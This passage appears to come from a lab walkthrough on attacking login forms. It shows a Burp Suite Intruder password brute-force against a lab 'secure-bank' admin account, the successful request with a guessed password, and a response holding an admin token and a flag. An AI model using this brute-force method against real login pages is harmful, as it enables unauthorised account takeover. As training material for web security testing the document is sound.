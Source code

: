 `burpsuite` > `Intruder` > `Payloads` = `Load: /root/Desktop/wordlists/100-common-passwords.txt` > `Start attack`

`HTTP Request`:
```http
POST /login📌 HTTP/1.1
Host: 192.141.40.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secure-bank.com:5000/login
Content-Type: application/json
Content-Length: 52
Origin: http://secure-bank.com:5000
Connection: close

{"email":"admin@secbank.com","password":"§password§"}📌
```
`HTTP Request`:
```http
POST /login HTTP/1.1
Host: 192.141.40.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secure-bank.com:5000/login
Content-Type: application/json
Content-Length: 52
Origin: http://secure-bank.com:5000
Connection: close

{"email":"admin@secbank.com","password":"christmas"}🔑
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 284
Access-Control-Allow-Origin: http://secure-bank.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 14:13:05 GMT

{"admin": true, "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzZWN1cmUtcG9ydGFsIiwiYWRtaW4iOnRydWUsImVtYWlsIjoiYWRtaW5Ac2VjYmFuay5jb20iLCJleHAiOjE3MzI3MTg1ODUsImlhdCI6MTczMjcxNjc4NX0.7KI_knayZjXzlfS2pivBWHYL6adMhhZfMsVduFbj3Oc", "flag": "08357d4a0acc2687422ba06c7d696758"}
```

### Attacking Login Forms with OTP Security

#### Lab Environment
